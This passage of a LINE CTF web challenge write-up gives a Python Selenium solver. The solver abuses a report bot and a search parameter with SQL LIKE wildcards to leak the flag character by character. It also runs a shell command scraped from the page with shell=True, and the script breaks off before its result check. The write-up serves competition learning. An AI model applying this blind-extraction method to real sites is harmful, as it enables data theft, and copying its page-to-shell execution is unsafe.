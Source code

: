 ### Solver

Using the Solver below, I extracted the flag string character by character from the beginning.[^7]

```py
import os
import string
import subprocess
from concurrent.futures.thread import ThreadPoolExecutor
from urllib.parse import quote, urljoin

from selenium import webdriver
from selenium.webdriver.chrome.options import Options

BASE_URL = os.getenv('BASE_URL')

USERNAME = os.getenv('USERNAME')
PASSWORD = os.getenv('PASSWORD')

S = string.ascii_lowercase + string.digits + '-'

FLAG_PRE = 'LINECTF{'
FLAG_SUF = '}'

def length_is(n: int) -> str:
    return f'{FLAG_PRE}{"_" * n}{FLAG_SUF}'

def nth_char_is(n: int, c: str) -> str:
    return f'{FLAG_PRE}{"_" * (n - 1)}{c}%{FLAG_SUF}'

def prop_holds(prop: str):
    print(f"\r[info] Attempting this prop => '{prop}'\033[0K", end='')

    options = Options()
    options.add_argument('--headless')
    driver = webdriver.Chrome(os.getenv('CHROME_DRIVER_PATH'), options=options)
    try:
        # Login
        driver.get(urljoin(BASE_URL, '/login'))
        driver.find_element_by_css_selector('input[name=username]').send_keys(USERNAME)
        driver.find_element_by_css_selector('input[name=password]').send_keys(PASSWORD)
        driver.find_element_by_css_selector('button[type=submit]').submit()

        # Move to /report
        report_bug_button = driver.find_element_by_css_selector('a.button.is-warning.is-light')
        report_bug_button.click()

        # Proof of work
        pow_cmd = driver.find_element_by_tag_name('strong').get_attribute('textContent').split('&&')[-1].strip()
        proof = subprocess.check_output(pow_cmd, shell=True).decode()

        # Make the payload
        payload = urljoin(BASE_URL, f'/search?q={prop}&download=')

        # Submit the payload
        driver.find_element_by_css_selector('input[name=url]').send_keys(payload)
        driver.find_element_by_css_selector('input[name=proof]').send_keys(proof)
        driver.find_element_by_css_selector(
            '#content > div > div > div.box > form > div:nth-child(4) > p > button').submit()

        # Check the result
        flash_message_el = driver.find_element_by_css_selector(
            '#content > div > div > div.box > form > div:nth-child(6)')
```

[^1]: I solved this with my teammate [@y0d3n](https://twitter.com/y0d3n).
[^2]: I feel that there is a relatively good way to put out a simple Writeup for the time being and give a detailed explanation at the review's timing.
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: I didn't investigate if we could issue other method requests because it was enough to get the flag if there was a GET request.
[^5]: After being forwarded, it may be normalized using `app.main.LanguageNomarize (request)`.
[^6]: `%` is a wildcard that represents a string of 0 or more characters
[^7]: Actually, the manual leak by teammate [@y0d3n](https://twitter.com/y0d3n) was faster, but from a privacy point of view, instead of his face photo, The Solver script by Python is posted.